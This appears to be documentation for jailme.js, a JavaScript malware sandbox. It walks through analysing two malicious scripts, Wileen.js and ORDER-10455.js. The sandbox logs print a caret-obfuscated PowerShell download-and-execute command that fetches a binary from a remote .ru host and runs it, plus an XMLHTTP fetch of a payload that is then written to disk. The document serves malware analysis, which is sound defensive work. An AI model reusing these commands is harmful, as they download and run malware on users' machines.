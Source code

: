 ### Example: Analysing Wileen.js ###

Taking malicious script from malwr.com: [Wileen.js](https://malwr.com/analysis/NTVkZDQ4MGZkZWE4NDAyM2EwODEyMDM3MDhjMDI1MTQ/)

Apparently the malware does not execute if run from within a browser:

	if (typeof document == "undefined") {

Therefore you may want to use an alternate config filem which does not load browser/DOM components:

    node jailme.js --down=y -c ./config_wscript_only.json  malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js 

Interesting use of Powershell:
    
    1 Oct 13:05:34 -  => Executing: malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js
    1 Oct 13:05:34 - ActiveXObject(WScRipT.SHEll)
    1 Oct 13:05:34 - Created: WScript.Shell[1]
    1 Oct 13:05:34 - WScript.Shell[1].Run(cmD.EXE /c POWE^R^s^he^lL.eXE     -ExEc^U^Tio^n^p^oLIC^y^   B^Y^pas^S -NOpro^Fi^L^e^    -^W^InD^Ow^sT^yle^  HI^ddeN^  (^Ne^W^-^OBJ^ecT^     S^YST^EM.net.Webc^L^I^E^n^T^).^dOWn^L^Oa^d^fI^lE^(^'http://click.doubledating.ru/js/boxun4.bin','%appdatA%.exE')^;^stA^Rt-^p^rO^c^eS^s  ^'%aPpdata%.eXe', false, undefined)
    1 Oct 13:05:34 - ==> Cleaning up sandbox.
    1 Oct 13:05:34 - ==> Script execution finished, dumping sandbox environment to a file.
    1 Oct 13:05:34 - The sandbox context has been  saved to: sandbox_dump_after.json
    
Log file: [malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out](malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out)

### Example: Analysing ORDER-10455.js ###

Taking malicious JavaScript from malwr.com: [ORDER-10455.js](https://malwr.com/analysis/NDU1ZDA4NmY3ZGUyNDczZjg0ODU2OGZiZTMxNjA5NzE/)

First run without interaction with remote servers:

    node jailme.js malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.js

you get something like:
    
    ... 
    29 Sep 23:17:21 - Calling eval() no.: 5
    29 Sep 23:17:21 - ActiveXObject(MSXML2.XMLHTTP)
    29 Sep 23:17:21 - Created: MSXML2.XMLHTTP[9]
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].open(GET,http://caopdjow.top/user.php?f=0.dat,false)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9] Not sending data, if you want to interact with remote server, set --down=y
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].responseBody = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status = '200'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined) finished
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status.get() => 200
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].ResponseBody.get() => aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)
    29 Sep 23:17:21 - ActiveXObject(Scripting.FileSystemObject)
    29 Sep 23:17:21 - Scripting.FileSystemObject[10] created.
    29 Sep 23:17:21 - Scripting.FileSystemObject[10].GetSpecialFolder(2)
    29 Sep 23:17:21 - ActiveXObject(ADODB.Stream)
    29 Sep 23:17:21 - Created: ADODB_Stream[11]
    29 Sep 23:17:21 - ADODB_Stream[11].Open()
    29 Sep 23:17:21 - ADODB_Stream[11].Type = '1'
    29 Sep 23:17:21 - ADODB_Stream[11].content = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)'
    29 Sep 23:17:21 - ADODB_Stream[11].Write(str) - 10000 bytes
    29 Sep 23:17:21 - ADODB_Stream[11].size = '10000'